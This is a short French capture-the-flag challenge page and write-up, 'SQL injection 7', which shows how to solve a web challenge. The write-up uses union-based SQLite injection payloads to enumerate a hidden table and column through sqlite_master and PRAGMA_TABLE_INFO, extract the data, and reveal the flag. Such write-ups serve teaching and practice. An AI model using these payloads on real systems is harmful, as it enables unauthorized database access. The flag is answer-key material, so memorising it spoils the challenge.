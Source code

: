 # SQL injection 7

> web

Author: [Alexandre-Xavier Labonté-Lamoureux (AXDOOMER)](https://github.com/axdoomer)

Ce septième défi d'injection SQL indentique au défi précédent, cependant vous ne connaissez pas le nom de la table ni de la colonne!

Bonne chance!!  :-) 

## Setup

Requirements:
- BurpSuite

# Writeup

Nom de la table:
`" union select 1,2,name from sqlite_master--`

Résultat: Ja93MjakS

Nom de la colonne:
`" union select 1,2,name from PRAGMA_TABLE_INFO("Ja93MjakS")--`

Résultat: `Dab93JkA`

Requête finale: `" union select 1,2,Dab93JkA from Ja93MjakS--`

Résultat: `FLAG-7de1baec41fa6c0969290f2f2e8eddcfOkThisWasEasy`
